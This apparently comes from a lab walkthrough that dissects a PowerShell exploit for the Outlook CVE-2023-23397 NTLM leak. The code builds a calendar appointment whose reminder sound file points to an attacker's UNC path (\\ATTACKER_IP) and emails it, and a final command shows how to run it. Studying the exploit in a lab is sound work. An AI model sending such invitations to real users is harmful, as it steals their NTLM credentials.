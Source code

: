 Dissecting the Exploit's Code

Both will create an appointment similarly, so we'll explain the **Save-CalendarNTLMLeak** only. 

First, we will instantiate an "Outlook.Application" object and create an appointment.

```powershell
$Outlook = New-Object -comObject Outlook.Application
$newcal = $outlook.CreateItem('olAppointmentItem')
```

The usual parameters of an appointment will be set. These include the recipients, meeting subject, location, body and start and end dates. The exploit sets the start day to the current time so that the reminder is triggered immediately:

```powershell
$newcal.Recipients.add($recipient)
$newcal.MeetingStatus = [Microsoft.Office.Interop.Outlook.OlMeetingStatus]::olMeeting
$newcal.Subject = $meetingsubject
$newcal.Location = "Virtual"
$newcal.Body = $meetingbody
$newcal.Start = get-date
$newcal.End = (get-date).AddHours(2)
```

The following additional parameters will be configured to point the reminder's sound file to the attacker's server, as previously explained:

```powershell
$newcal.ReminderSoundFile = $remotefilepath
$newcal.ReminderOverrideDefault = 1
$newcal.ReminderSet = 1
$newcal.ReminderPlaysound = 1
```

Finally, the appointment will be sent to the recipient via email:

```powershell
$newcal.send()
```

Using the Exploit

You can import the exploit's functions with the Import-Module cmdlet. After that, both functions will be available in your current Powershell. To send an email with a malicious appointment, you can just run the following command:


You can import the exploit's functions with the Import-Module cmdlet. After that, both functions will be available in your current Powershell. To send an email with a malicious appointment, you can just run the following command:

Powershell

```shell-session
PS C:\> cd C:\Users\Administrator\Desktop\
PS C:\Users\Administrator\Desktop\> Import-Module .\CVE-2023-23397.ps1
PS C:\Users\Administrator\Desktop\> Send-CalendarNTLMLeak -recipient "test@thm.loc" -remotefilepath "\\ATTACKER_IP\foo\bar.wav" -meetingsubject "THM Meeting" -meetingbody "This is just a regular meeting invitation :)"
```
